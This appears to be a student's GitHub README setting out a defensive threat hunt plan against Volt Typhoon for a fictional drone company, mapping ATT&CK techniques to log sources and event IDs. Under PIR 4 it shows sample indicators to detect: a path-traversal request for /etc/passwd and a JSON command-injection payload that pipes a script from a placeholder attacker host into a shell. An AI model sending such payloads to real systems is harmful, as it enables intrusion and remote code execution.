



# Intelligence-Driven Threat Hunt Plan — DroneSwarm Technologies Inc.

**Type:** Intelligence-driven hunt plan | **Framework:** MITRE ATT&CK, PIR-based collection planning
**Threat actor:** Volt Typhoon (state-sponsored APT, LOTL techniques against critical infrastructure)

## Scenario

DroneSwarm Technologies Inc. is a fictional U.S. drone R&D firm with contracts tied to the Defense Industrial Base (DIB) and DHS — including a standing requirement to have 25 drones combat-ready within a 3-hour window for an undisclosed partner. ~70 employees, Cisco routing infrastructure, and an Ivanti Connect Secure VPN appliance for remote engineers and sales staff.

**Seed intelligence:** [CISA Joint Advisory AA24-038A](https://www.cisa.gov/news-events/cybersecurity-advisories/aa24-038a), which details Volt Typhoon's use of living-off-the-land (LOTL) techniques against U.S. critical infrastructure.

**Hypothesis:** Volt Typhoon operators have compromised legitimate accounts at DroneSwarm Technologies Inc.

This plan works backward from that hypothesis: terrain analysis identifies *where* an actor like Volt Typhoon would need to go, an ATT&CK overlay identifies *how*, and four Priority Intelligence Requirements (PIRs) turn both into concrete log sources and detection logic.

---
## Contents

- [Scenario](#scenario)
- [Terrain Analysis](#terrain-analysis)
  - [AOA #1 — Exploit VPN Appliance (T1190)](#avenue-of-approach-1--exploit-vpn-appliance-t1190)
  - [AOA #2 — Use Compromised Legitimate Account (T1078 + T1133)](#avenue-of-approach-2--use-compromised-legitimate-account-t1078--t1133)
- [ATT&CK Navigator Overlay](#attck-navigator-overlay)
- [Priority Intelligence Requirements (PIRs)](#priority-intelligence-requirements-pirs)
- [Full Deliverable](#full-deliverable)

---


## Terrain Analysis

Network map with mission-critical assets and areas of interest highlighted, annotated with two additional avenues of approach (AOAs) aligned to Volt Typhoon's known tradecraft:




### Avenue of Approach #1 — Exploit VPN Appliance (T1190)



The Ivanti Connect Secure appliance is public-facing by design. Volt Typhoon and closely related actors have repeatedly used edge-appliance CVEs as an initial foothold, making this the most direct path from internet to internal network.

### Avenue of Approach #2 — Use Compromised Legitimate Account (T1078 + T1133)



Rather than exploiting the appliance itself, this path assumes the actor already holds valid credentials (harvested separately) and simply authenticates through the VPN's external remote services — consistent with Volt Typhoon's stated preference for blending in as legitimate traffic rather than deploying malware.

---

## ATT&CK Navigator Overlay

Built a full tactic-by-technique overlay (Reconnaissance → Impact) using Volt Typhoon as the seed threat group, then extended it with techniques pulled directly from AA24-038A that weren't yet reflected in ATT&CK's own group profile — since published intelligence on an actor is usually ahead of the framework's cataloging. Full matrix is in the `TTP Overview` tab of the workbook below.

---

## Priority Intelligence Requirements (PIRs)

Four PIRs, each mapped to a specific ATT&CK technique, an area of interest on the network, and concrete log sources/indicators an analyst would actually query for.

| # | PIR | ATT&CK Technique | Area of Interest | Key Indicators |
|---|-----|-------------------|-------------------|----------------|
| 1 | Evidence of compromised accounts | T1078 – Valid Accounts | VPN Server, Domain Controllers | Anomalous/foreign source IPs, off-hour logons, Event IDs 4624/4625/4634, 4768/4769/4771, 4740, 4776 |
| 2 | Evidence of unauthorized account creation | T1136 – Create Account | Domain Controllers | Event ID 4720 (creation) with unfamiliar username/timing, 4722 (enable), 4728/4732/4756 (added to privileged group), 4738 (modified) |
| 3 | Evidence of Ingress Tool Transfer | T1105 | SW LAN / Engineering Server / Drone OS Server | Sysmon Process Creation (1), PowerShell Script Block Logging (4104) showing unexpected outbound connections, Sysmon Network Connect (3) to unusual IP/domain, Sysmon File Create (11) immediately following |
| 4 | Exploitation of Ivanti Connect Secure | T1190 | Ivanti Connect Secure appliance | Path-traversal (`../`) and command-injection syntax in requests, malformed JSON POSTs to `/api/v1/*`, unrecognized/modified files in web-accessible directories |

**PIR 4 detail** — this is the one most directly tied to AA24-038A's LOTL narrative, since it's the initial-access step everything else in the hypothesis depends on:

```
GET /api/download?file=../../../../etc/passwd

{
  "username": "admin; curl http://attacker-ip/malicious_script.sh | sh;",
  "node_name": "$(whoami)"
}
```

PIR 3's detection logic chains cleanly across log sources — worth calling out as a mini kill-chain:

```
PowerShell / LOLBin execution (4104 / Sysmon 1)
        ↓
Unexpected outbound connection (Sysmon 3)
        ↓
File/tool appears on endpoint (Sysmon 11)
        ↓
Potential T1105 — Ingress Tool Transfer
```

---

## Full Deliverable

The complete workbook — network overlay, full ATT&CK matrix (all 14 tactics), and all four PIR worksheets — is available here: [`Threat-Hunt-Plan-QuyPham.xlsx`](Threat-Hunt-Plan-QuyPham.xlsx)

**Assignment reference:** Intelligence-driven hunt plan, built against CISA Advisory AA24-038A (Volt Typhoon).
